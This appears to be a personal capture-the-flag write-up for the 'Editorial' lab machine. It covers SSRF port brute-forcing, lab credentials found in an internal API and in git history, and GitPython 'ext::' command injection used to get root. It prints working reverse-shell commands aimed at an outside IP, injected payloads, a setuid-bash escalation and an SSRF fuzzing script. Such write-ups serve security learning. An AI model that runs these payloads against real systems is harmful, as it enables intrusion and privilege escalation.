 - nmap revealed http and tcp port.
	- http running nginx
- vi /etc/hosts to add editorial.htb
- tried dirbuster, dirsearch and gobuster but got nothing.
- we see a place for user input and on burp suite we catch the request.
	- can upload file but it does nothing (returns an image)
	- but we see a location to enter a url
		- so with entcat listening on a port we put our ip and port there
		- we get a response so we know it is vulnerable to server side request forgery (SSRF)
		- we enumerate the localhost port 80 to see if any local websites. we dont get much but we can brute force and check
		- send to intrude and select the IP region and use /usr/share/seclists/DNS/Discovery/Infrastructure/common http proxies wordlist.
		- we notice one response that is slightly different a returns something other than the image
		- alternatively (and also burp suite is slower for this brute force) we can use ffuf.
		- copy the request with the ip and the port number listed like this :
```
127.0.0.1:FUZZ
```

- and pass the command :

```
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fr "jpeg" # or -fs 62 since that was the default size
```

- we get a file which when passing file command we know its a JSON file. Can use jq to make it more readable

```
cat <file_name> | jq .
```

- this file shos different endpoints which we can try to access with our SSRF. We end up finding another file in this endpoint:
```
/api/latest/metadata/messages/authors
```

- so we added this url in our SSRF exploit :

```
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

- we receive a file:
- we find the credentials of dev in the output

```
Username: dev
Password: dev080217_devAPI!@
```

- can ssh into machine with this credentials and get user flag.

## Lateral Movement
- looking at the file where user flag is we see a folder apps.
	- looking into it and passing ls -al we see a hidden .git repository
	- can enumerate with git

```
git status # shows some files were deleted
git logs
```

- alternatively I read the file logs and noted a "Downgrading prod to dev"
	- i also check /etc/passwd for prod and see he is a user.
	- furthermore since sudo -l didnt work maybe this prod user could have something we could run as root to get root access
- pased git show on the commit id in the log to see what was changed and from there we find prods credentials were deleted.

```
Username: prod
Password: 080217_Producti0n_2023!@
```

- logging into prod with su, we check sudo -l to see there is a command we could run:
```
/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```
- we also see the env_reset and secure path has been set so the user is quite secure
- we read the file clone_prod_change.py:

```
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
	
 - we see the intput argument to pass some command.
	- the main thing to catch is 

 ```
from git import Repo
```

- on checking for exploits we find one with the following exploit:

```
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```
- we see that when 'ext::sh -c' is passed we can  get some kind of RCE.
	- on passing this command as an argument we find that it created /tmp/pwned file showing that this is being exploited. I didn't do this but you can do to test.
	- we attempt to input our IP and port to get a reverse shell. 

 ```
echo "bash -i >& /dev/tcp/10.10.14.25/9998 0>&1" >/tmp/pwned
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/pwned'
```
- while i listened on the port
- **alternatively you can pass the command directly instead of creating /tmp/pwned**

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% -c% "bash% -i% >&% /dev/tcp/10.10.14.25/9999% 0>&1"'
```

- we input this command as exploit but add % wherever there is a space:

```
ash -c 'bash -i >& /dev/tcp/<local_ip>/9998 0>&1'
```
	
 - **IPPSec Alternate**
	- we find the location of bash with which bash command and copy it to /tmp
	- we then use our exploit to give it root ownership and add a setuid bit so we can execute it.

```
which bash #/usr/bin/bash
cp /usr/bin/bash /tmp
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chown% root:root% /tmp/bash'
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% 4755% /tmp/bash' # gives it the setuid bit
```
		
  - finally we privilege escalate with :

```
/tmp/bash -p # without -p it won't give root shell as bash inbuilt security lowers privileges of setuid executables unless specified
```
	
 - we gain root access

-------
## Python code to brute force ports
- code:

```
#!/usr/bin/python3
import requests
with open("a", 'wb') as f:
f.write(b'')
for port in range(1, 65535):
with open("a", 'rb') as file:
data_post = {"bookurl": f"http://127.0.0.1:{port}"}
data_file = {"bookfile": file}
try:
r = requests.post("http://editorial.htb/upload-cover",
files=data_file, data=data_post)
if not r.text.strip().endswith('.jpeg'):
print(f"{port} --- {r.text}")
except requests.RequestException as e:
print(f"Error on port {port}: {e}")
```



